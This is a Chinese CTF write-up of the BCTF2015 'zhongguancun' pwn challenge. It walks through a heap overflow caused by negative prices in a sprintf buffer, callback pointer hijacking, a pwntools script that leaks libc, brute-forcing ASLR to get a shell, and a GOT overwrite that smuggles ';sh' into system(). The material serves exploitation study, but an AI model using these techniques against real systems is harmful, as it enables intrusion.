 ```yaml
---
layout: post
title: BCTF2015 zhongguancun writeup
catagories: [ctf]
tags: [ctf, writeup, BCTF2015, pwn, exploit]
---
```


> 堆溢出, 弱菜解题小记

```
*********************************
*** Welcome to Zhong Guan Cun ***
*********************************
Are you dreaming of becoming a Milli$_$naire?
Come to sell some electronics!

a) Register my store
b) Try my store
c) Exit
Your choice? 
```

经分析，这个题目是说一个中关村买卖电子产品的服务。在买前之前，需要先在商店里，填好商品条目。一共有两大类，手机和手表，每个条目的数据结构如下：

```
+0x0
callback function pointer, 在增加条目时，被指向一个用来计算批发价的函数。
+0x4
手机或手表名称，由用户自己输入， 长度0x20
+0x24
相关描述，长度0x50
+0x74
价格，长度16
+0x78
操作系统对应选项，其中手机有5个，手表有4个。
```

每个条目的0x7c大小的数据结构，均在堆上申请分配

`0x08049036`处的这个函数，可以打印出目前商店中的商品。它在堆上申请了一个2840大小的空间，然后使用一个函数将其格式化打印到一个指定的buffer里。

```c
int __cdecl sub_804932E(item *a1, char *buffer)
{
    return sprintf(
               buffer,
               "%s %s price: %d CNY description: %s",
               20 * a1->type + 0x804B140,
               a1->name,
               a1->price,
               a1->description);
}
```

那么，到目前为止，可能的漏洞在哪里呢，我们对堆上分配的内存比较敏感，先看看2840大小的空间够不够存放最多16个条目的。
我们把所有的条目都定位到最长，操作系统类型，选择手机里的`Blackberry OS`，即类型为4。其名称输入最长的`31`个字符，描述输入`79`个字符。价格在内存中使用32位整型保存，最大应该是`2147483647`，`%d`打印出来，是10个字符长。

所有的这些加起来，输满16个，好像才2837个字符，没有溢出的样子。

真的是这样吗？价格由atoi()函数转换而成，好像没有做强制类型转换，也就是说可以是负数，如果是负数，像这样`-1000000000`岂不是11个字符，`2837+16>2840`，这样就可以溢出了。

这个溢出，我们如何来利用呢？首先想到的是每个商品也是在堆上分配的（0x7c大小），而每个商品的最开始的地方，是相应的函数指针，能不能把这个函数指针改掉？当然可以，那么改成什么呢？试遍所有，在调函数之前有个判断，从`/dev/zero`里读0, 填充到当前指向的值最末位，即如果是0xaabbccdd，会改成0xaabbcc00，当然，如果这个数据是只读的，就没法改动。那么这个地方的函数指针也只能改成rodata这种只读权限的段的内容了。又因为它是函数指针，我们接下来，也要利用这个函数指针，所以我的方法是改成`008049B64x`，利用其`sub_804932E`函数来向指定内存中打印字符串，这样来达到任意地址写的目的。

如此，在执行到以下代码时，就能执行我们改成的`sub_804932e`处的函数，而第二参数，本来是指购买数量，换成这个函数变成了指定的buffer的值了。也是我们可以控制的。

```c
    read_zero(v4, (void **)&a1->callback);
    v6 = (*(int (__cdecl **)(item *, int))a1->callback)(a1, numberofBuy);
    sprintf(nptr, "The lowest price we can offer is %d CNY.\n", v6);
```

到这里，问题来了，我们能任意地址写了，虽然是一写一大块。我们如何泄露某个libc函数地址，来计算libc基址，并且把计算好的system()函数的地址再写回远端呢？好像比较困难，我们可以使用2840大小的堆地址，将其写成某个libc函数的got表地址，然后很多地方调用了它，可以将它的值打印出来，即应got表的值可以打印出来，但好像一直没找到办法把计算好的system()函数的地址写回去。

我这里的利用不太好，最终还是使用的暴力的思路，泄露出system()地址后，因为它们是页对齐的，即对方alsr无论地址如何变，最后12位是不会变的。并且前面的8位也不会变，变的只是中间那几位，这样变化空间就比较小，可以将一个对的system()函数的地址放上去，然后`while True:`的来调利用脚本，一旦利用成功，因为开了交互式`io.interactive()`,脚本就会停下来，拿到shell。

泄露libc地址的脚本

```python
#!/usr/bin/env python2
from pwn import *

io = process("./zhongguancun-47a25f85cc5221071886cc129046e6e4_noped")
#io = remote("146.148.60.107", 6666)
#bin = ELF("./zhongguancun-47a25f85cc5221071886cc129046e6e4")
#libc = ELF("libc.so.6")
libc = ELF("libc.so.6.local")


buffer = "a"*15 + "\n" + "A"*63 + "\n" 
buffer += ("a"*15 + "\n" + "P"*31 + "\n" + "4" + "\n" + "-1000000000\n" + "D"*79 + "\n") * 15
io.send(buffer)
#raw_input()
buffer = "c" + "\n"
buffer += "a"*15 + "\n" + "P"*31 + "\n" + "4" + "\n" + "-1000000000\n" 
buffer += p32(0x080489C3) + "D"*2 + p32(0x0804B024)*10 + p32(0xf7470da0) + p32(0x080489C3)*4 + p32(0x804b140) + p32(0x0804B030)  + p32(0x08049B64) + "\n"

buffer += "c" + "\n" + "d" + "\n" +"b" +"\n" + "16" +"\n"
buffer += "b" + "\n" + "134525187" + "\n" # offset read, global_s
buffer += "b" + "\n" + "134525696" + "\n"
buffer += "c" + "\n" 
io.send(buffer)


buffer = "b" + "\n"
io.send(buffer)
all = io.recvrepeat(timeout=1)
readaddr = all[-68:-64]
alarmaddr = all[-64:-60]
print libc.symbols["read"]
print libc.symbols["system"]
libcbase = u32(readaddr) - libc.symbols["read"]
systemaddr = libcbase + libc.symbols["system"]
print "[+] leak read() address: ", hex(u32(readaddr))
print "[+] leak libc base address: ", hex(libcbase)
print "[+] leak system() address: ", hex(systemaddr)

io.interactive()
```

然后，再利用上面脚本，稍做修改，将泄露出来的地址硬写进去，改一下来触发来`system("sh")`(我改的是atoi()函数，并给传进去的参数是"sh"， 利用脚本就不贴了，跟上面大同小异), 加个while的循环，暴力的等shell吧。还好是32位的二进制程序，如果是64位的，这个方法是行不通的。所以不推荐我这里使用的暴力的方法。

下面我们来看看来自Gallopsled的非常完美的一个利用吧:

* 猛击链接:<https://gist.github.com/Idolf/99ffa3c5f76165f77b19>

他利用了当前拥有的钱数，将其指向的地址改成`sprintf`的got表的地址，然后在下面这地方，有对钱数进行了改动。

```c
get_input(nptr, 15, '\n');
v1 = atoi(nptr);
if ( v1 <= 0 )
    goto LABEL_6;
v2 = *(_DWORD *)mymoney - a1->price * v1;
if ( v2 >= 0 )
{
    *(_DWORD *)mymoney = v2;
    put_char((int *)"Thanks for buying.\n");
    sprintf(nptr, "Total money left: %d CNY.\n", *(_DWORD *)mymoney);
```

利用钱数改动的操作，将`sprintf`到`system()`的偏移计算好，直接利用`momey - a1->price*v1`的操作将`sprintf`的`got`表的值改成真实的`system`函数地址值，接下来，执行到`sprintf()`就相当于执行`system("2 ;sh")`了，`nptr="2 ;sh"`
